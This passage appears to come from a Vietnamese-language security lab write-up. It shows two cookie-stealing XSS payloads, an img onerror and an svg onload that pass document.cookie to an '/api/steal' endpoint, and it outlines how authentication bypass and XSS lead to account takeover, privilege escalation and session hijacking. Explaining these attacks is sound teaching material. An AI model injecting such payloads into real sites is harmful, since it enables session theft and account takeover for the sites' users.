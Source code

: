 ### 4. Obfuscated XSS

```html
<img src="x" onerror="fetch('/api/steal?cookie='+document.cookie)" />
```

### 5. DOM-based XSS

```html
<svg onload="fetch('/api/steal?cookie='+document.cookie)"></svg>
```

## ⚠️ Nguy hiểm trong thực tế

Nếu có lỗ hổng Authentication Bypass + XSS:

### 1. Account Takeover

```
Attacker giả mạo cookie → Đăng nhập tài khoản nạn nhân
→ Đánh cắp dữ liệu, thay đổi thông tin
```

### 2. Privilege Escalation

```
User bình thường → Sửa cookie thành admin
→ Có quyền admin trên hệ thống
```

### 3. Data Breach

```
Bypass authentication → Truy cập dữ liệu nhạy cảm
→ Tải xuống database, customer info
```

### 4. Session Hijacking (XSS)

```
1. Attacker post XSS payload trong comment
2. Admin vào xem comment → Script thực thi
3. Cookie admin bị đánh cắp
4. Attacker dùng cookie để đăng nhập admin
```

### 5. Mass Account Takeover

```
1. XSS trong trang public (comment, profile)
2. Mọi user vào xem → Cookie bị đánh cắp
3. Attacker có database đầy đủ session tokens
```

## 🔑 Tài khoản hệ thống
